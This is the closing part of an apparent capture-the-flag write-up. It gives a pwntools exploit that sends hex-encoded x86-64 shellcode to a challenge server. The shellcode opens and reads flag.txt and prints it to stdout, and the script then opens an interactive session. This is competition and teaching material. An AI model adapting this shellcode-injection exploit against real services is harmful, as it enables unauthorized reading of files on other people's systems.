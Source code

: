 ```python

host, port = "kitctf.me", "1338"

shellc = asm('''
  mov eax,0
  mov ecx, 0x67616C66
  mov [rsp],ecx
  mov ecx, 0x7478742E
  mov [rsp+4],ecx
  mov [rsp+8],rax
  mov rdi,rsp
  mov rsi,rax
  mov al,2
  syscall

  mov rdi,rax
  mov rdx,rsp
  mov dx,0
  mov rsi,rdx
  mov edx,0x200
  mov eax,0
  syscall
  mov rdx,rax

  mov eax,1
  mov edi,0
  .byte 0xc6,0x86
''')

if args.DOCKER:
  p = remote('127.0.0.1',1338)
else:
  p = remote(host,port)

# send shellcode encoded in hex
sla('> ', binascii.hexlify(shellc))

p.interactive()
```

and that's all :)

*nobodyisnobody still pwning things..*
